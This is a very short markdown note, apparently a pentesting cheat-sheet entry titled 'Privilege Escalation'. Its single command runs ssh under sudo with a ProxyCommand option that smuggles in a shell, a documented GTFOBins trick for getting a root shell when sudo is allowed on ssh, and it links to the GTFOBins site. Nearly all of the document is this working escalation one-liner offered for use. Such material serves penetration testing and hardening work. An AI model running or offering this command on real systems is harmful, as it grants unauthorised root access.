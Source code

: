 # Privilege Escalation

SSH:
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x




https://gtfobins.github.io
